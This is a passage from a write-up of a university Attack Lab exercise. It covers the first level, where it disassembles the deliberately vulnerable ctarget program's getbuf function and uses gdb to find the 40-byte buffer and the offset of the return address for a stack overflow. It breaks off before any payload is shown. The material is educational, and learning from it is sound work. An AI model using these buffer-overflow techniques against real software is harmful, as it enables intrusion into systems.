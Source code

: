 # Attack Lab Solution

## CI Level 1

Before any analysis, just run the program first. Add the `-q` option to disable reporting the results. It is expected to exit normally. We need to find out how to exploit the buffer overflow to reach `touch1`.
```
$ ./ctarget -q
Cookie: 0x59b997fa
Type string:123
No exploit.  Getbuf returned 0x1
Normal return
```

Dump the asm code.
```sh
objdump -d ctarget > ctarget.txt
```

Look at the `getbuf` method. It allocates a 40-byte buffer and reads a string from stdin. So the return address will be at `buf+40`.
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

Let's gdb into it to verify this idea.
```
gdb --args ./ctarget -q
(gdb) b *0x4017b4
(gdb) layout asm
(gdb) r
Type string:01234567890123456789
(gdb) x/20wx $rsp
0x5561dc78:     0x33323130      0x37363534      0x31303938      0x35343332
0x5561dc88:     0x39383736      0x00000000      0x00000000      0x00000000
0x5561dc98:     0x55586000      0x00000000      0x00401976      0x00000000
0x5561dca8:     0x00000002      0x00000000      0x00401f24      0x00000000
0x5561dcb8:     0x00000000      0x00000000      0xf4f4f4f4      0xf4f4f4f4
(gdb) bt
#0  getbuf () at buf.c:16
#1  0x0000000000401976 in test () at visible.c:92
#2  0x0000000000401f24 in launch (offset=<optimized out>) at support.c:295
#3  0x0000000000401ffa in stable_launch (offset=<optimized out>) at support.c:340
Backtrace stopped: Cannot access memory at address 0x55686000
```
